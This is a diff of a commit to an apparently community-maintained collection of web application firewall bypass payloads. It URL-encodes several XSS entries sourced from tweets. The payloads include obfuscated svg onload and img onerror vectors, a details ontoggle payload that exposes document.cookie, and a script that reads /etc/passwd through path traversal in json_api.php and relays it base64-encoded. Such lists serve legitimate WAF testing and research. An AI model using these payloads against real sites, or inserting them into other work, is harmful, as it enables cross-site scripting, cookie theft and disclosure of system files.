

Before and after one commit to waf-bypass-maker/waf-community-bypasses, a CSV file: payloads.twitter.csv, drawn as a sheet; only a part is shown, gaps mark what is left out; addresses are those after the commit; ↵ is a line break in a cell; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
Update payloads.twitter.csv

```diff
--- a/payloads.twitter.csv
+++ b/payloads.twitter.csv
-B511: /&gt;&lt;/script&gt;&lt;script&gt;alert(document.domain)&lt;/script&gt;,xss ↵ https://twitter.com/cyber_advising/status/1804119011086549017, <script>fetch('/json_api.php?query[]=../etc/passwd').then(r => r.text()).then(t => fetch('/json_api.php?query[]=../rspamd_custom_maps/'+btoa(t)))</script>,xss ↵ https://twitter.com/RootMoksha/status/1804523003235225830, <details x=xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx:2 open ontoggle=prompt(document.cookie);">
+B511: %20%22%2F%26gt%3B%26lt%3B%E2%80%8B%2Fscript%26gt%3B%26lt%3B%E2%80%8Bscript%26gt%3Balert%28document.domain%29%26lt%3B%E2%80%8B%2Fscript%26gt%3B
+row 512: https://twitter.com/cyber_advising/status/1804119011086549017 | %20%3Cscript%3Efetch%28%27%2Fjson_api.php%3Fquery%5B%5D%3D..%2Fetc%2Fpasswd%27%29.then%28r%20%3D%3E%20r.text%28%29%29.then%28t%20%3D%3E%20fetch%28%27%2Fjson_api.php%3Fquery%5B%5D%3D..%2Frspamd_custom_maps%2F%27%2Bbtoa%28t%29%29%29%3C%2Fscript%3E | xss
+row 513: https://twitter.com/RootMoksha/status/1804523003235225830 | %20%3Cdetails%20x%3Dxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx%3A2%20open%20ontoggle%3D%22prompt%28document.cookie%29%3B%22%3E | xss
-B514: <svg/onload=alert/*1337*/(1)>
+B514: %20%3Csvg%2Fonload%3Dalert%2F%2A1337%2A%2F%281%29%3E
-B515: &lt;svg/onload=alert//&amp;NewLine;(2)&gt;
+B515: %20%26lt%3Bsvg%2Fonload%3Dalert%2F%2F%26amp%3BNewLine%3B%282%29%26gt%3B
-B516: &lt;svg/onload=alert&amp;sol;**&amp;sol;(3)&gt;
+B516: %20%26lt%3Bsvg%2Fonload%3Dalert%26amp%3Bsol%3B%2A%2A%26amp%3Bsol%3B%283%29%26gt%3B
-B517: &lt;svg/onload=alert/&amp;#42;&amp;#42;/(4)&gt;
+B517: %20%26lt%3Bsvg%2Fonload%3Dalert%2F%26amp%3B%2342%3B%26amp%3B%2342%3B%2F%284%29%26gt%3B
-B518: &lt;svg/onload=alert&amp;#x2F;**&amp;#47;(5)&gt;
+B518: %20%26lt%3Bsvg%2Fonload%3Dalert%26amp%3B%23x2F%3B%2A%2A%26amp%3B%2347%3B%285%29%26gt%3B
-B519: <img hrEF="x" sRC="data:x" oNLy=1 oNErrOR=prompt`1`>
+B519: %20%3Cimg%20hrEF%3D%22x%22%20sRC%3D%22data%3Ax%22%20oNLy%3D1%20oNErrOR%3Dprompt%601%60%3E
```
